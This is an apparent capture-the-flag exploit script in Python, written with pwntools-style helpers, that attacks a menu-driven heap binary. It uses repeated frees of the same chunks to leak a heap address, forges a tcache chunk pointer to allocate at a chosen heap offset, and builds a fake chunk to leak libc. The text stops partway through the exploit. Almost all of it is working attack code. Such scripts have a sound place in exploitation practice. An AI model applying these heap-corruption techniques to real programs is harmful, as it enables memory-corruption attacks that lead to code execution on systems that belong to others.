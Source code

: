 ```python
def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def choice(idx):
    def wrap(f):
        def go(*args,**kargs):
            sla("choice:",str(idx))
            f(*args,**kargs)
        return go
    return wrap

@choice(idx=1)
def add(content):
    sa("content:",content)

@choice(idx=2)
def edit(idx,content):
    sla("idx:",str(idx))
    sa("content:",content)

@choice(idx=3)
def free(idx,c):
    sla(":",str(idx))
    sla(":",c)

@choice(idx=4)
def show(idx):
    sla(":",str(idx))

if __name__ == '__main__':
    # leak heap
    add("123")
    add("123")
    free(1,'y')
    free(0,'y')
    add('1')
    show(0)
    ru("tent:")
    heap_addr=raddr()-0x231
    lg("Heap addr",heap_addr)


    # allocate a chunk at heap_addr+0x68
    free(0,'y')
    add(p64(0)*7+p64(0x61)+p64(heap_addr+0x68))
    add("123")
    for i in range(7):
        free(0,'n')
    free(1,'y')
    free(0,'y')
    add("123")
    add("123")

    # create fake chunk and leak libc
    free(1,'y')
    add(p64(0))
    edit(0,p64(0)*3+p64(0xa1))
```